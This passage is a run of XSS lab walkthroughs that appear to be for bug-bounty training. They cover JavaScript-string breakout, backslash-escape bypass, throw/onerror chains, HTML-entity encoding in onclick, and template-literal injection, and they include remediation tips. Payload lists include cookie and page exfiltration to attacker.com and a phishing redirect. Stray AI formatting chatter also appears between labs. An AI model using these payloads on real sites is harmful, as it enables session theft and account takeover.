';eval(String.fromCharCode(97,108,101,114,116,40,49,41))//
```

---

### When comments blocked

```
';alert(1)/*
```

---

## ⚠️ Reality Check

No payload is guaranteed  

Apps may include:

- Filters  
- CSP  
- Framework protections  
- Encoding layers  

---

## 🔗 Attack Chains

---

### 🔥 Session Hijacking

```
document.cookie
```

---

### 🔥 Token Theft

```
localStorage.getItem("token")
```

---

### 🔥 Data Exfiltration

```
fetch("https://attacker.com?d="+document.body.innerHTML)
```

---

### 🔥 Phishing Redirect

```
location="https://fake-login.com"
```

---

## 🧪 Testing Methodology

---

Step 1 → Find reflection  
Step 2 → Identify JS context  
Step 3 → Break quote  
Step 4 → Inject JS  
Step 5 → Fix syntax  
Step 6 → Execute  

---

## ⚠️ Why This XSS Matters

- No HTML needed  
- Works even when `< >` blocked  
- Common in modern apps  
- Hard to detect  

---

## 🛡 Remediation

- Avoid raw input in JS  
- Use `JSON.stringify()`  
- Avoid `eval()`  
- Implement CSP  
- Context-aware encoding  

---

## 🧠 Bug Hunter Mindset

Ask:

- Am I inside JS string?  
- Which quote is used?  
- Can I break it?  
- Do I need `//`?  

---

## 🧠 Ultimate Mental Model

Find input  
↓  
Detect JS context  
↓  
Break string  
↓  
Inject JS  
↓  
Fix syntax  
↓  
Execute  

---

## 🎯 Final Summary

✔ Inside JS string  
✔ Broke quote  
✔ Injected JS  
✔ Commented rest  

→ XSS achieved 💥  

---

# 🐞Lab 20 - Reflected XSS in JavaScript (Escaped Quotes, Backslash Bypass)

---

## 🔹 Overview

This lab demonstrates Reflected XSS inside a JavaScript string where:

- Single quotes `'` are escaped using backslash `\`  
- Angle brackets `< >` and double quotes `"` are encoded  
- BUT backslash itself is NOT properly escaped  

---

👉 This creates a bypass opportunity  

---

## 🧠 Core Idea

Protection:

```
\' 
```

Weakness:

```
\ is NOT escaped
```

👉 Attacker uses `\` to break escaping  

---

## 🔹 What Is This Topic?

JavaScript context XSS with flawed escaping  

---

## 🔄 Flow

1️⃣ User sends input  
2️⃣ Server places it inside JS string  

```
var input = 'USER_INPUT';
```

3️⃣ Server escapes:

```
' → \'
```

4️⃣ Browser executes JS  

---

## ⚠️ Problem

You cannot break string normally  

Because:

```
' → becomes \'
```

---

## ⚠️ Weakness

Server does NOT escape:

```
\
```

---

## 🔹 Core Concepts

---

### 🟢 Escape Character

```
\  → escape operator
```

---

### 🟢 Escaped Quote

```
\' → NOT closing string
```

---

### 🟢 Backslash Pairing

```
\\ → one real backslash
```

---

### 🟢 Weak Escaping Logic

- Escapes `'`  
- Ignores `\`  

👉 Attacker controls escape chain  

---

## 🪜 Lab Walkthrough

---

### Step 1 — Test Input

```
XSS123
```

---

### Step 2 — Observe Reflection

```
var searchTerms = 'XSS123';
```

✔ Input inside JS string  

---

## 📸 Screenshot 1 — Normal Reflection



---

### Step 3 — Try Normal Payload

```
';alert(1);//
```

---

### Step 4 — Result (Escaped by Server)

```
var searchTerms = '\';alert(1);//';
```

❌ Payload fails  

---

### 🔴 Why It Failed

```
' → becomes \'
```

👉 String NOT closed  

---

## 📸 Screenshot 2 — Escaped Payload (Server Adds Backslash)



---

### Step 5 — Apply Backslash Bypass

```
\';alert(1);//
```

---

### Step 6 — Server Transformation

```
\\';alert(1);//
```

---

### 🟢 JavaScript Interpretation

```
\\ → becomes \
'  → FREE → closes string
```

---

### Step 7 — Final Execution

String closes → payload executes  

---

## 📸 Screenshot 3 — Final Payload Execution



---

## 💥 Execution Flow

1️⃣ Input injected  
2️⃣ Server escapes `'`  
3️⃣ Attacker-controlled `\` breaks escape  
4️⃣ String closes  
5️⃣ JS executes  
6️⃣ alert triggers 💥  

---

## 🔹 Payload Breakdown

---

### 🎯 Payload

```
\';alert(1);//
```

---

### Parts

```
\    → cancels server escape  
'    → closes string  
;    → ends statement  
alert(1) → executes  
//   → comments rest  
```

---

## 🧩 Analogy

Server adds lock 🔒  

You add anti-lock ⚔️  

→ Lock breaks → execution happens  

---

## 🔹 Why This Works

- Server escapes only `'`  
- Does NOT escape `\`  

👉 Escape chain becomes controllable  

---

## 🔹 When This Fails (Real World)

Modern apps may:

- Escape `\` → `\\`  
- Use JSON encoding  
- Use frameworks (React, Angular)  
- Apply CSP  
- Avoid inline JS  

---

👉 Then this payload FAILS ❌  

---

## 🌍 Real-World Scenarios

---

### 🟢 Weak Escaping (Same as Lab)

```
var q = 'INPUT';
```

Payload:

```
\';alert(1);//
```

---

### 🟢 Double Escaping Systems

Payloads to test:

```
\\';alert(1);//
\\\';alert(1);//
\\\\';alert(1);//
```

---

### 🟢 Strict Escaping (Modern Apps)

Fallback:

```
</script><script>alert(1)</script>
```

---

### 🟢 JSON Context

```
var data = {"name": "INPUT"};
```

Payload:

```
\";alert(1);//
```

---

### 🟢 Template Literal

```
let msg = `INPUT`;
```

Payload:

```
${alert(1)}
```

---

### 🟢 Universal HTML Breakout

```
</script><script>alert(1)</script>
```

---

## 🔗 Attack Chains

---

### 🔥 Session Hijacking

```
document.cookie
```

---

### 🔥 Token Theft

```
localStorage
```

---

### 🔥 Account Takeover

- Change email  
- Reset password  

---

### 🔥 Admin Compromise

Send malicious link  

---

### 🔥 API Abuse

Perform authenticated actions  

---

## 🛡️ Remediation

- Escape BOTH `'` and `\`  
- Use `JSON.stringify()`  
- Avoid inline JS  
- Use CSP  
- Use secure templating  

---

## 💡 Pro Mindset

Escaping ≠ security  

Partial escaping = vulnerability  

---

### Always Test

```
'
\
\\
\\\
</script>
```

---

## 🧠 Ultimate Mental Model

Input  
→ Reflection  
→ JS string  

If `'` blocked → try `\`  
If `\` blocked → try more `\`  
If all blocked → break HTML  
If still blocked → change context  

---

## 🎯 FINAL GOLDEN RULE

If backslash is NOT escaped  
→ it becomes your weapon  

---

Got it — this time perfect format:

✔ Headings with # / ## / ###
✔ No merged text
✔ Screenshot placed AFTER Lab Walkthrough
✔ Clean fenced markdown (yellow box style)
✔ Content fully preserved


---

---

# 🐞 Lab-21 - XSS in JavaScript Context (Strict Filters + Exception Handling)

---

## 🔹 Overview

This lab demonstrates a highly restricted reflected XSS scenario where:

✔ User input is reflected inside a JavaScript string  
✔ Multiple defenses are applied  

- Special characters restricted  
- Spaces blocked  
- Normal function calls blocked  

❌ Direct payloads like `<script>` or `alert(1)` fail  

👉 Goal: Execute JavaScript despite heavy restrictions  

---

## 🧠 What Is This Topic?

XSS inside **JavaScript context under strict filtering**

---

## 🔄 Flow

User Input  
→ Server Response  
→ Injected into JS string  
→ Filters applied  
→ Browser parses  
→ Indirect JS execution  

---

## 🧠 Key Concept

❌ Direct execution → blocked  

✔ Indirect execution → required  

---

## 🪜 Lab Walkthrough

---

### 1️⃣ Identify Reflection

Input:

```
test123
```

Observed:

```
var data = 'test123';
```

✔ Input is inside JavaScript string  

---

### 2️⃣ Try Basic Payload

```
';alert(1);//
```

❌ Fails because:

- Quotes escaped  
- Special characters filtered  
- Spaces blocked  

---

### 3️⃣ Analyze Restrictions

❌ Spaces blocked  
❌ Direct function calls blocked  
❌ Standard payloads fail  

---

### 4️⃣ Change Strategy

❌ Direct execution  

✔ Indirect execution using JS behavior  

---

### 5️⃣ Final Payload (Encoded)

```
%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

---

### 6️⃣ Load Payload

Open crafted URL  

---

### 7️⃣ Trigger Execution

Click:

Back to blog  

---

💥 Result:

```
alert(1337)
```

✅ Lab Solved  

---

## 📸 Screenshot — Final Payload Execution



---

## 🔍 Payload Breakdown

---

### 🎯 Readable Payload

```
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

---

### 🔹 Step 1 — Break String

```
'}
```

Closes original JS string  

---

### 🔹 Step 2 — Create Function

```
x = x => { ... }
```

Arrow function  

---

### 🔹 Step 3 — Throw Error

```
throw/**/onerror=alert,1337
```

Breakdown:

- `throw` → trigger error  
- `/**/` → bypass space filter  
- `onerror=alert` → handler  
- `1337` → argument  

---

### 🔹 Step 4 — Hook toString

```
toString = x
```

Runs function when converted to string  

---

### 🔹 Step 5 — Trigger Execution

```
window + ''
```

Forces:

```
toString()
```

---

### 💥 Execution Chain

```
window → toString → x()
→ throw error → onerror fires
→ alert(1337)
```

---

## 🔹 Why This Works

✔ JS allows indirect execution  
✔ Errors trigger `onerror`  
✔ Type conversion triggers `toString`  
✔ Filters miss logical execution paths  

---

## 🌍 Real-World Scenarios

---

### 🟢 Analytics Scripts

```
var search = 'INPUT';
```

---

### 🟢 Logging Systems

```
log('INPUT')
```

---

### 🟢 SPA Data Injection

```
window.__DATA__ = 'INPUT';
```

---

### 🟢 URL Parameters in JS

```
var ref = 'INPUT';
```

---

### 🟢 Third-Party Widgets

```
var msg = 'INPUT';
```

---

## 🔥 Advanced Tricks

```
onerror=alert;throw 1
```

```
{onerror=alert}throw 1
```

```
throw onerror=alert,1
```

```
{onerror=eval}throw'=alert(1)'
```

```
throw{message:'alert(1)'}
```

---

## 🔗 Attack Chains

---

### 🔥 Account Takeover

Steal session/token  

---

### 🔥 Admin Compromise

Execute in admin context  

---

### 🔥 Data Exfiltration

Extract DOM data  

---

### 🔥 CSRF Bypass

Perform actions via JS  

---

## 🛡️ Remediation

✔ Escape quotes + backslashes  
✔ Avoid inline JavaScript  
✔ Use `JSON.stringify()`  
✔ Apply CSP  
✔ Use safe DOM APIs  

---

## 🧠 Pro Hunter Mindset

✔ Test restrictions one by one  
✔ Think like JavaScript engine  
✔ Look for indirect execution  
✔ Don’t rely on basic payloads  

---

## 🧠 Ultimate Mental Model

Find reflection  
↓  
Identify JS context  
↓  
Understand filters  
↓  
Break context  
↓  
Use indirect execution  
↓  
Trigger execution  

---

## 🎯 Final Insight

At expert level:

👉 You are not injecting payloads  

👉 You are abusing JavaScript logic itself  

---

Got it — I included your missing decoded-payload step, kept everything structured, and added 1 screenshot (final encoded payload) right after the walkthrough.

✔ Clean markdown UI
✔ No merging
✔ Quotes / payloads preserved
✔ Step added correctly


---

---

# 🐞Lab-22 Stored XSS - HTML Encoding inside onclick (Attribute → JS String)

---

## 🔹 Overview

Stored Cross-Site Scripting (Stored XSS) occurs when:

✔ User input is saved on the server  
✔ Later rendered into the page  
✔ Browser interprets it as executable code  

---

👉 In this lab:

Input is placed inside:

HTML → attribute (onclick) → JavaScript → string  

---

👉 Important behavior:

❌ ' is filtered  
✔ Encoded version works  

---

## 🧠 What Is This Topic?

Bypassing filters using **HTML encoding**

---

## 🔹 Context Structure

```
<a href="USER_INPUT"
   onclick="tracker.track('USER_INPUT');">
```

---

👉 Input is inside:

JavaScript string → `'INPUT'`

---

## 🪜 Lab Walkthrough

---

### 1️⃣ Initial Test (Normal Input)

Website:

```
http://fsociety.com
```

---

### 2️⃣ Observe Reflection

```
href="http://fsociety.com"
onclick="tracker.track('http://fsociety.com');"
```

---

👉 Understanding:

✔ `href` → display only  
⚠️ `onclick` → execution point  

---

### 3️⃣ Identify Context

```
tracker.track('YOUR_INPUT');
```

✔ JavaScript string context  

---

### 4️⃣ Try Normal Payload (Fails)

```
http://foo?'-alert(1)-'
```

---

❌ Result:

- Server blocks `'`
- String does NOT break  

---

### 5️⃣ Decoded Payload (What We WANT)

```
http://foo?'-alert(1)-'
```

---

👉 This is the **logical payload**, but it fails due to filtering  

---

### 6️⃣ Encode Payload (Bypass)

```
http://foo?&apos;-alert(1)-&apos;
```

---

👉 Why it works:

✔ Server allows `&apos;`  
✔ Browser converts it → `'`  

---

### 7️⃣ Submit Final Payload

Website field:

```
http://foo?&apos;-alert(1)-&apos;
```

---

### 8️⃣ Server Response

```
onclick="tracker.track('http://foo?&apos;-alert(1)-&apos;');"
```

---

### 9️⃣ Browser Decodes

```
tracker.track('http://foo?' - alert(1) - '');
```

---

### 🔟 Trigger Execution

Click:

- Author name  
- Back to blog  

---

💥 Result:

```
alert(1)
```

✅ Lab Solved  

---

## 📸 Screenshot — Final Encoded Payload



---

## 🔍 Payload Breakdown

---

### 🔴 Final Payload (Encoded)

```
http://foo?&apos;-alert(1)-&apos;
```

---

### 🟡 Decoded Version (Browser Sees)

```
http://foo?'-alert(1)-'
```

---

## 🧩 Step-by-Step Execution

---

### 🔹 1️⃣ &apos;

→ becomes `'`  

✔ Closes JS string  

---

### 🔹 2️⃣ -alert(1)-

✔ Executes JavaScript  

---

### 🔹 3️⃣ &apos;

→ becomes `'`  

✔ Repairs syntax  

---

## 🧠 Final JavaScript

```
tracker.track('http://foo?' - alert(1) - '');
```

---

💥 Alert executes  

---

## 🔹 Why It Appears in href

```
href="http://foo?... "
```

---

✔ Just a normal link  
❌ Not execution point  

---

## 🔹 Why It Executes on Click

```
onclick="..."
```

---

✔ Executes when user clicks  

---

## 🌍 Real-World Scenarios

---

### 🟢 Comment Systems

```
<a onclick="track('INPUT')">
```

---

### 🟢 Analytics Tracking

```
onclick="sendData('INPUT')"
```

---

### 🟢 Profile Website Fields

```
href="USER_URL"
onclick="track('USER_URL')"
```

---

### 🟢 Button Tracking

```
<button onclick="log('INPUT')">
```

---

### 🟢 Marketing / CRM Tools

```
onclick="openLink('INPUT')"
```

---

## 🔗 Attack Chains

---

🔥 Stored XSS → Mass execution  

🔥 XSS → Admin takeover  

🔥 XSS → Data theft  

🔥 XSS → Phishing  

---

## 🛡️ Remediation

---

✔ Escape for JavaScript context  
✔ Avoid inline JS (`onclick`)  
✔ Use `addEventListener`  
✔ Use CSP  
✔ Proper encoding  

---

## 🧠 Pro Hunter Mindset

---

👉 If character is blocked → encode it  

✔ Browser will decode it later  

---

## 🧠 Ultimate Mental Model

---

Input  
↓  
Stored  
↓  
Reflected in onclick  
↓  
Browser decodes  
↓  
JS string breaks  
↓  
Click triggers execution  

---

## 🎯 Final One-Liner

---

Bypass filters using **HTML encoding** to break JavaScript inside attributes  

---

---

# 🐞Lab-23 Reflected XSS — JavaScript Template Literals (Backticks Context)

---

## 🔹 Overview

Reflected Cross-Site Scripting (Reflected XSS) occurs when:

✔ User input is sent to the server  
✔ Immediately reflected in the response  
✔ Browser interprets it as executable JavaScript  

---

👉 In this lab:

Input is reflected inside:

JavaScript → template literal (` `)

---

👉 Special behavior:

❌ `< > ' "` → HTML encoded  
❌ ` (backtick) → escaped  
✔ `${...}` → allowed  

---

## 🧠 What Is This Topic?

XSS inside **JavaScript template literals**

---

## 🔹 Context Structure

```
var searchTerms = `USER_INPUT`;
```

---

👉 Input is inside:

Template literal → `` `INPUT` ``  

---

## 🪜 Lab Walkthrough

---

### 1️⃣ Initial Test (Reflection Check)

Input:

```
test123
```

---

### 2️⃣ Observe Response

```
var searchTerms = `test123`;
```

---

✔ Confirmed:

Inside template literal context  

---

## 📸 Screenshot — Reflection in Template Literal



---

### 3️⃣ Try Normal Payloads (Fail)

```
<script>alert(1)</script>
```

❌ Encoded  

---

```
';alert(1);
```

❌ No effect  

---

### 4️⃣ Use Correct Payload

```
${alert(1)}
```

---

### 5️⃣ Send Payload

```
${alert(1)}
```

---

### 6️⃣ Server Response

```
var searchTerms = `${alert(1)}`;
```

---

### 7️⃣ Execution

Browser evaluates:

```
${...}
```

→ Executes JavaScript  

---

💥 Result:

```
alert(1)
```

✅ Lab Solved  

---

## 📸 Screenshot — Final Payload Execution



---

## 🔍 Payload Breakdown

---

### 🔴 Final Payload

```
${alert(1)}
```

---

### 🟢 Step-by-Step

---

#### 🔹 1️⃣ ${

Start of JS expression  

---

#### 🔹 2️⃣ alert(1)

Executes JavaScript  

---

#### 🔹 3️⃣ }

Ends expression  

---

## 🧠 Final Code

```
var searchTerms = `${alert(1)}`;
```

---

💥 Executes immediately  

---

## 🔹 Why No Breaking Needed

---

Because template literals already allow execution  

---

👉 Comparison:

```
'string'   → need breaking  
`string`   → direct execution via ${}
```

---

## 🌍 Real-World Scenarios

---

### 🟢 Modern Frontend Apps

```
const msg = `Hello ${userInput}`;
```

---

### 🟢 API Rendering

```
element.innerHTML = `Result: ${query}`;
```

---

### 🟢 Logging Systems

```
console.log(`Search: ${input}`);
```

---

### 🟢 Notifications

```
showMsg(`User ${input} logged in`);
```

---

### 🟢 Dynamic HTML

```
container.innerHTML = `<div>${input}</div>`;
```

---

### 🟢 Search Features

```
var searchTerms = `USER_INPUT`;
```

---

## 🔥 Payload Variations

---

```
${alert(1)}
```

---

```
${alert(document.domain)}
```

---

```
${console.log(1)}
```

---

```
${fetch('https://attacker.com?c='+document.cookie)}
```

---

```
${eval('alert(1)')}
```

---

```
${(()=>alert(1))()}
```

---

## 🔗 Attack Chains

---

🔥 Account takeover  

🔥 Token theft  

🔥 Admin compromise  

🔥 API abuse  

🔥 DOM manipulation  

---

## 🛡️ Remediation

---

✔ Avoid inserting input in template literals  
✔ Use `textContent` instead of HTML  
✔ Escape output properly  
✔ Use secure frameworks  
✔ Apply CSP  

---

## 🧠 Pro Hunter Mindset

---

👉 If you see backticks → think `${...}`  

---

✔ No breaking needed  
✔ Direct execution possible  
✔ Common in modern apps  

---

## 🧠 Ultimate Mental Model

---

Input  
↓  
Reflected inside `` ` ``
↓  
`${...}` executes  
↓  
Immediate execution  

---

## 🎯 Final One-Liner

---

Template literal XSS = inject `${payload}` → instant execution  

---
